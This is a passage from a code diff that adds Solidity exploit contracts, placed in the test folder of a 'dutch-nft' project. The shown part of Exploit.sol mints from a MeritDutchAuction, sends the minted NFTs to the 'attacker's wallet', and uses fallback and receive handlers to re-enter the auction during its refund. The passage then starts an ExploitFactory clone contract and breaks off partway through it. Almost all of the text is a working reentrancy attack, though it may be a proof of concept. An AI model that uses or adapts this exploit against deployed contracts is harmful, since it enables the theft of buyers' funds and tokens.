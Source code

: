 ```patch
+        minted = _amount;
+        receiver = msg.sender;
+        MeritDutchAuction(auction).mint{value: msg.value}(_amount);
+    }
+
+    // Transfer minted NFTs to attacker's wallet
+    function _afterExecute(
+        address _nft,
+        uint256 _amount,
+        address payable _to
+    ) internal {
+        for (uint256 i = 0; i < _amount; i++) {
+            uint256 tokenId = IERC721Enumerable(_nft).tokenOfOwnerByIndex(
+                address(this),
+                0
+            );
+            IERC721Enumerable(_nft).safeTransferFrom(
+                address(this),
+                _to,
+                tokenId
+            );
+        }
+    }
+
+    // Refund & trigger a reentrancy
+    function _fallback() internal {
+        if (msg.sender == address(auction)) {
+            _afterExecute(meritNFT, minted, payable(receiver));
+            (bool success, ) = payable(receiver).call{
+                value: address(this).balance
+            }("");
+            require(success, "Exploit: Refund failed");
+        }
+    }
+
+    fallback() external payable {
+        _fallback();
+    }
+
+    receive() external payable {
+        _fallback();
+    }
+}
diff --git a/dutch-nft/test/ExploitFactory.sol b/dutch-nft/test/ExploitFactory.sol
new file mode 100644
index 0000000..f67cf33
--- /dev/null
+++ b/dutch-nft/test/ExploitFactory.sol
@@ -0,0 +1,82 @@
+// SPDX-License-Identifier: UNLICENSED
+pragma solidity ^0.8.13;
+import "@openzeppelin/contracts/proxy/Clones.sol";
+import "@openzeppelin/contracts/access/Ownable.sol";
+import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
+import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
+import "./Exploit.sol";
+import "../src/MeritDutchAuction.sol";
+
+contract ExploitFactoryClone is Ownable, IERC721Receiver {
+    address immutable exploitImplementation;
+    Exploit _exploitContract;
+    address immutable meritNFT;
+    MeritDutchAuction immutable auction;
```